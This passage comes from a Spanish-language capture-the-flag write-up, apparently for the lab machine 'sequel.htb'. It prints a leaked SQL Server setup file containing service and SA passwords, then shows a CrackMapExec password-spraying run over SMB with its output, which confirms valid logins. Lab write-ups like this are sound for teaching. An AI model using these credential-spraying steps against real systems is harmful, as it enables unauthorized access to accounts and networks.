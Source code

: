 ```bash

COMMFABRICPORT="0"                                  

COMMFABRICNETWORKLEVEL=""0"                         

COMMFABRICENCRYPTION="0"                            

MATRIXCMBRICKCOMMPORT="0"                           

SQLSVCSTARTUPTYPE="Automatic"                       

FILESTREAMLEVEL="0"                                 

ENABLERANU="False"                                  

SQLCOLLATION="SQL_Latin1_General_CP1_CI_AS"         

SQLSVCACCOUNT="SEQUEL\sql_svc"                      

SQLSVCPASSWORD="WqSZAF6CysDQbGb3"                   

SQLSYSADMINACCOUNTS="SEQUEL\Administrator"          

SECURITYMODE="SQL"                                  

SAPWD="MSSQLP@ssw0rd!"                              

ADDCURRENTUSERASSQLADMIN="False"                    

TCPENABLED="1"                                      

NPENABLED="1"                                       

BROWSERSVCSTARTUPTYPE="Automatic"                   

IAcceptSQLServerLicenseTerms=True                   

NULL                 
```


#### CRACKMAPEXEC

En este paso, procedemos a realizar un ataque utilizando **CrackMapExec (CME)** con los usuarios y contrasenas que hemos conseguido hasta el momento para intentar autenticar usuarios y contraseñas en el servidor objetivo a través del protocolo SMB. Este comando permite la automatización de la comprobación de credenciales, facilitando la enumeración de usuarios válidos y el descubrimiento de configuraciones de seguridad.

```bash
(kali㉿kali)-[~]
└─$ crackmapexec smb 10.10.11.51 -u usuarios.txt -p contrasena.txt --continue-on-success
SMB         10.10.11.51     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:sequel.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.51     445    DC01             [+] sequel.htb\sql_svc:WqSZAF6CysDQbGb3 
SMB         10.10.11.51     445    DC01             [-] sequel.htb\sql_svc:MSSQLP@ssw0rd! STATUS_LOGON_FAILURE 
SMB         10.10.11.51     445    DC01             [-] sequel.htb\sql_svc:0fwz7Q4mSpurIt99 STATUS_LOGON_FAILURE 
SMB         10.10.11.51     445    DC01             [-] sequel.htb\sql_svc: STATUS_LOGON_FAILURE 
SMB         10.10.11.51     445    DC01             [+] sequel.htb\ryan:WqSZAF6CysDQbGb3 
SMB         10.10.11.51     445    DC01             [-] sequel.htb\ryan:MSSQLP@ssw0rd! STATUS_LOGON_FAILURE 
SMB         10.10.11.51     445    DC01             [-] sequel.htb\ryan:0fwz7Q4mSpurIt99 STATUS_LOGON_FAILURE 
```